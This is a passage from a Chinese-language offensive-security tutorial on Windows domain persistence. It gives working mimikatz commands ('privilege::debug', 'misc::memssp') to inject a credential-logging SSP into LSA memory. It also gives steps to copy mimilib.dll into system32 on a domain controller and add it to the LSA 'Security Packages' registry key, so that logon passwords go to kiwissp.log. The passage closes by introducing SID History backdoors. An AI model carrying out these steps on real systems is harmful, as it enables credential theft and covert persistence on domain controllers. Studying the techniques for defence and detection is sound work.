 #### [](#231-mimilib-ssp)2.3.1 mimilib SSP

> 由于是针对本机的 LSA 进行 Patch，因此本方法只针对在当前机器上登录的用户起作用

##### [](#2311-%E9%80%9A%E8%BF%87%E5%86%85%E5%AD%98%E6%9B%B4%E6%96%B0%E7%95%99%E5%90%8E%E9%97%A8%E4%B8%B4%E6%97%B6)2.3.1.1 通过内存更新留后门（临时）

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>misc::memssp<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209135146.png-water_print](assets/1699409504-3c05e347523354ac6d5c9d2d98868806.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201209135146.png-water_print")

##### [](#2312-%E9%80%9A%E8%BF%87%E4%BF%AE%E6%94%B9%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%95%99%E5%90%8E%E9%97%A8%E6%B0%B8%E4%B9%85)2.3.1.2 通过修改注册表留后门（永久）

使用此方法即使系统重启，也不会影响到持久化的效果

1.  添加 `mimilib.dll` 到域控 `C:\windows\system32` 下

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>copy mimilib.dll %systemroot%\system32<br>``` |

> **注：**
> 
> 64 位系统要用 64 位的 mimilib.dll，32 位的会失败

2.  设置 SSP

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"<br>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ<br>``` |

3.  重启系统

域控重启后在 `c:\windows\system32` 可看到新生成的文件 `kiwissp.log`

### [](#24-sid-history-%E5%9F%9F%E5%90%8E%E9%97%A8)2.4 SID History 域后门

> 每个用户帐号都有一个关联的安全标识符（简称 SID），SID 用于跟踪安全主体在访问资源时的帐户与访问权限。为了支持 AD 迁移，微软设计了 SID History 属性，SID History 允许另一个帐户的访问被有效的克隆到另一个帐户。通过 SID History 可让用户拥有不同身份的权限，在单域中同样有效。
